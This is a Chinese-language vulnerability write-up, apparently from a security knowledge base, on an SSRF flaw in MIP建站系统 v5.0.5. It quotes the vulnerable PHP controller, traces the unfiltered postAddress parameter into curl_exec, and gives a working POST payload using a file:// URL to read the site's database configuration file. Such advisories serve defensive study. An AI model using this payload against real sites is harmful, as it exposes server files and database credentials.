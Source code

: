 MIP建站系统 v5.0.5 SSRF漏洞
===========================

一、漏洞简介
------------

二、漏洞影响
------------

MIP建站系统 v5.0.5

三、复现过程
------------

### 漏洞分析

进行简单的漏洞分析。根据漏洞定位代码文件：app/setting/controller/ApiAdminDomainSettings.php受影响代码：

    public function urlPost(Request $request) {
            $postAddress = input('post.postAddress');
            if (!$postAddress) {
                return jsonError('请先去设置推送的接口');
            }
            $api = trim($postAddress);
            if (strpos($api,'type=realtime') !== false || strpos($api,'type=batch') !== false) {
                if (!config('siteInfo')['guanfanghaoStatus']) {
                    return jsonError('检测到您未开启熊掌号，请开启后再推送');
                }
            }
            $url = input('post.url');
            $id = input('post.id');
            if (!$url) {
                return jsonError('没有检测到你推送的页面地址');
            }   
            $urls[] = $url;
            $ch = curl_init();
            $options =  array(
                CURLOPT_URL => $api,
                CURLOPT_POST => true,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_POSTFIELDS => implode("\n", $urls),
                CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
            );
            curl_setopt_array($ch, $options);
            $result = curl_exec($ch);

流程分析：

    1、$ postAddress = input('post.postAddress');  
        //POST方法将$postAddress参数传入

    2、$api = trim($postAddress);    
    $options =  array(
                CURLOPT_URL => $api,
                CURLOPT_POST => true,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_POSTFIELDS => implode("\n", $urls),
                CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
            );
            curl_setopt_array($ch, $options); 
        //赋予$api参数，一直至$ch，未进行任何过滤
    3、$result = curl_exec($ch);    
        //最后执行

### 漏洞复现

第一步，登陆该后台：

第二步，访问所受影响的代码文件：

    http://www.0-sec.org/index.php？s=/setting/ApiAdminDomainSettings/urlPost；
    POST方法进行请求，payload：  
    postAddress=file:///C:\phpStudy\PHPTutorial\WWW\app\database.php&url=test&id=test

![](resource/MIP建站系统v5.0.5SSRF漏洞/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/7431
